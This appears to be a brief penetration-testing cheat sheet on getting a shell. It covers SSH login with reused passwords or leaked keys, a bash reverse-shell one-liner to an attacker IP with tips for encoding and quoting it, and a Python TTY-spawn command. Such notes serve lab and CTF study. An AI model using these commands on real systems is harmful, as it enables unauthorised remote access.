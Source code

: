 ```yaml
---
sort : 1
---
```


# Get-A-Shell 


## SSH 

1. Password Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh Username@Host
    password : ******* 

$ ssh -i PrivateKey Username@Host 
```


2. Connecting Via SSH is Better ?

So if you got a shell as a user, and you were able to create `.ssh` directory (if it's not already there)




## Reverse Shell 

[the best place to generate a reverse shell](https://www.revshells.com/)

```note
some times the shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 

* try URL encoding / double URL encoding

* quotations conflict, how to deal with it ?? 

    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


# Spawn a TTY shell 

python3 -c 'import pty; pty.spawn("/bin/bash")'